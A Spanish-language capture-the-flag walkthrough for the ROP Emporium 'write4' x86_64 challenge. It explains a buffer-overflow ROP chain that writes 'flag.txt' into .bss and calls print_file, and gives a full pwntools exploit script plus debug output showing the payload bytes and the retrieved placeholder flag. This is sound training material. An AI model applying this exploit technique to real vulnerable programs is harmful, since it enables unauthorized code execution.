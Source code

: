 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Write4 (x86\_64)

Este ejercicio es casi el mismo que [callme](callme-x86_64.md). La diferencia principal es que en lugar de tener que llamar a unas funciones de la libc externa con x parámetros para desencriptar hay que llamar una función, también de la libc que nos dan, y pasarle por parámetro un puntero al string "flag.txt", vamos a verlo:

```c
void print_file(char *param_1)
{
    char array[40];
    FILE *ptr_flag;

    ptr_flag = (FILE *)0x0;
    ptr_flag = fopen(param_1, "r"); // Aquí
    if (ptr_flag == (FILE *)0x0) {
        printf("Failed to open file: %s\n", param_1);
        exit(1);
    }

    fgets(array, 0x21, ptr_flag);
    puts(array);
    fclose(ptr_flag);
    return;
}
```

Como podemos ver se abre el archivo que le pasemos como parámetro a la función y luego la imprime usando punteros. Parece fácil, simplemente usamos un gadget que haga un `pop rdi` y le pasamos `flag.txt` y listo, no? Pues no es tan fácil ya que `fopen` pide un puntero a un string y no el valor directamente. Para solucionar esto vamos a meter `flag.txt` en la sección de memoria `.bss` usando un gadget y luego vamos a mandarle el puntero como parámetro. Con pwntools podemos automatizar la búsqueda de la dirección inicial de bss con `exe.bss()`. Vamos a hacer el exploit:

```python
#!/usr/bin/env python3

from pwn import *
import sys

exe = ELF("write4")
libc = ELF("libwrite4.so")

context.binary = exe
context.terminal = ['kitty']
gdb_script = f'''
continue
'''

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.GDB:
            gdb.attach(r, gdbscript=gdb_script)
        return r
    return remote("addr", 1337)

def main():
    io = conn()
    
    offset = 40
    pop_rdi = 0x00400693 # pop rdi, ret
    mov_r14_r15 = 0x00400628 # mov qword ptr [r14], r15 ; ret
    pop_r14_r15 = 0x00400690 # pop r14 ; pop r15 ; ret
    
    payload = flat({
        offset: [
            pop_r14_r15, exe.bss(), b'flag.txt',
            mov_r14_r15,
            pop_rdi,    exe.bss(),
            exe.plt['print_file'],
        ]
    })

    io.sendlineafter(b'> ', payload)
    
    io.interactive()

if __name__ == "__main__":
    main()

```

> Si el programa escribiera algo en .bss habría que tenerlo en cuenta y sumar a `exe.bss()` lo necesario para que cuadre con el primer espacio libre

```c
[+] Starting local process '/home/ub1cu0/Desktop/ropEmporium/write4/write4': pid 799711
[DEBUG] Received 0x4a bytes:
    b'write4 by ROP Emporium\n'
    b'x86_64\n'
    b'\n'
    b'Go ahead and give me the input already!\n'
    b'\n'
    b'> '
[DEBUG] Sent 0x61 bytes:
    00000000  61 61 61 61  62 61 61 61  63 61 61 61  64 61 61 61  │aaaa│baaa│caaa│daaa│
    00000010  65 61 61 61  66 61 61 61  67 61 61 61  68 61 61 61  │eaaa│faaa│gaaa│haaa│
    00000020  69 61 61 61  6a 61 61 61  90 06 40 00  00 00 00 00  │iaaa│jaaa│··@·│····│
    00000030  38 10 60 00  00 00 00 00  66 6c 61 67  2e 74 78 74  │8·`·│····│flag│.txt│
    00000040  28 06 40 00  00 00 00 00  93 06 40 00  00 00 00 00  │(·@·│····│··@·│····│
    00000050  38 10 60 00  00 00 00 00  10 05 40 00  00 00 00 00  │8·`·│····│··@·│····│
    00000060  0a                                                  │·│
    00000061
[*] Switching to interactive mode
[DEBUG] Received 0x2c bytes:
    b'Thank you!\n'
    b'ROPE{a_placeholder_32byte_flag!}\n'
Thank you!
ROPE{a_placeholder_32byte_flag!}
```

Y así conseguiremos la flag!
